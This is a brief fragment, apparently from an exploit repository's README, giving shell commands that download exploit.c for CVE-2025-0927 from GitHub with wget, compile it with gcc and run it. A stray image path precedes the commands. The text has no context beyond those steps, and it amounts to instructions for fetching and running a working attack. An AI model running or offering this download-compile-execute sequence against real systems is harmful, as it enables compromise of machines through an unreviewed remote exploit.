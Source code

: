 wget https://raw.githubusercontent.com/mr-spongebob/CVE-2025-0927/refs/heads/main/exploit.c

gcc -o exploit exploit.c -lz

./exploit

